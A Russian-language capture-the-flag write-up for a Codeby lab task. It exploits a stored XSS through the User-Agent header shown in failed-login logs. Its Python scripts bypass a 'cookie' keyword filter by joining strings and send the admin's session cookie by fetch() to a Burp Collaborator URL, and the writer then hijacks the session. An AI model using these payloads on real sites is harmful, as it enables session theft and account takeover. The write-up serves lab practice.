 # Forbidden code writeup
Указанная сложность таска - сложный

Для начала перейдем по указанному нам ип-адресу
>***62.173.140.174: 16013***

Вот что нас встречает
![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/db842813-38bb-4e0c-b884-06ad635d44e7)

Похоже на форму входа, есть ссылка на регистрацию, ну, попробуем зарегистрироваться 
![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/9ea47466-4aac-4229-b349-ba2983d2498d)

Нам пишут о неудачных попытках входа, значит попробуем неудачно зайти, и обновить страницу

![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/a45efe91-90ed-46dc-9c6c-112293142e8a)

Отлично! Нам показывают данные о неудачной попытке

Итак, мы можем вводить, кто-то может получать, надо проверять на XSS уязвимости.
Регистрируем пользователя с ником `<script>alert(2)</script>` и после пытаемся провально зайти на него с другого браузера

![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/adfe66e3-e75a-4a13-9951-59396e3a76f7)

Мы получили сообщение, а значит сайт уязвим. Вспомним что мы видим в информации о попытке входа, и подумаем что нам подсилу поменять.
Подделать ip-адрес под скрипт нам не под силу, ник тоже, а вот **user-agent**, звучит возможным.

Нам нужны куки админа, что бы нам дали доступ. Спрашиваем у гугла, как получать печенье, и понимаем, что нам нужено перехватить document.cookie. Передадим его в обычный ``alert``
```
import requests


payload = '<script>alert(document.cookie);</script>'

user = "{имя нашего пользователя}" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
```

И вроде мы ко всему готовы, но не к фильтрации, в таксе фильтруется слово cookie, почему бы нам его не разбить на две части с помощью массива, js соединит их в едино и так мы обойдём фильтрацию
```
import requests


payload = '<script>const vv = ["coo", "kie"].join("");alert(document[vv]);</script>'

user = "{имя нашего пользователя}" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
```

Мы обошли!

Дальше нам понадобиться Burp Suite Pro, способ получения не важен.

Если быть точнее, то нам нужна вкладка **Collaborator**
![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/f18be37f-db23-49dc-854e-6eeb7d464f43)

Нажимаем на кномпку **Copy clipboard**, то что мы скопировали вставляем в нам скрипт, я указ место для вставки как *ссылка перехвата*
```
import requests


payload = '<script>const vv = ["coo", "kie"].join(""); var payload = `https://{{ссылка для перехвата}}/?${vv}=` + document[vv]; fetch(payload);</script>'

user = "admin" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
```

Запускаем наш код, ждём минутку, и наживаем на конопку **pull now** в Burp Suit

![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/04b4c2be-0c82-41ce-b8b2-603ff2fc8cd6)

Рассмотрим наш улов.  
>cookie=PHPSESSID=um1h6ekatsrb2drjjas4msqamu

Видимо это и есть печенье нашего админа, сделаем так, что бы он с нами поделился, с помощью **Cookie-Editor**

![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/a3b44f5a-2104-415f-915e-2d761ea30d16)

Сохраняем, пытаемся зайти под ником **admin** и видим наш флаг

![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/d5e03990-a226-4ffc-9e9f-d24499e95391)
